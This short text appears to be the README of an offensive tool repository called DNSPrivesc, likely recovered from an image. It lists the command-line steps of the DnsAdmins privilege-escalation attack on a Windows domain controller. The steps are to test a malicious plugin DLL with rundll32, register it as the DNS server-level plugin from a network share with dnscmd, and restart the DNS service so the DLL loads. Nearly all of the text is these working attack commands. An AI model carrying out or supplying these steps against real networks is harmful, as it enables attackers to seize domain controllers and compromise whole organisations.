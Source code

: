 Build and test
rundll32.exe .\DNSPrivesc.dll,DnsPluginInitialize

Upload evil plugin dll
dnscmd dc01.corp.local /config /serverlevelplugindll \\fileshare\dnsprivesc.dll

Restart DNS service to apply the evil DLL
sc stop dns
sc start dns
